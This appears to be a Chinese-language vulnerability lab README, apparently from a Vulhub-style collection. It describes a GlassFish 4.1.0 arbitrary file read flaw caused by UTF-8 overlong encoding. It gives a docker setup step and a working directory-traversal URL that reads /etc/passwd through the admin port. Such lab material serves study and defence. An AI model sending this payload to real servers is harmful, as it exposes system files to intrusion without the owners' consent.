

# GlassFish 4.1.0 任意文件读取漏洞

GlassFish是一个用于Java EE平台的开源应用服务器。在GlassFish中存在一个漏洞，攻击者可以通过UTF-8 Overlong Encoding攻击读取任意文件。

该漏洞产生的原因是GlassFish在解码URL时没有正确处理UTF-8 Overlong Encoding，导致将`%c0%ae`解析为ASCII字符的`.`（点）。攻击者可以通过在URL中使用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来实现目录遍历，从而读取系统上的任意文件。

参考链接：

- <https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904>
- <https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html>

## 环境搭建

执行如下命令启动一个GlassFish 4.1.0服务器：

```
docker compose up -d
```

环境启动后，你可以通过`http://your-ip:4848`访问GlassFish管理控制台：

## 漏洞复现

访问以下URL可以读取`/etc/passwd`的内容：

```
https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```



### 补充说明

超级管理员密码在`docker-compose.yml`中设置，默认值为`vulhub_default_password`。你可以使用此密码在4848端口登录管理员账户。
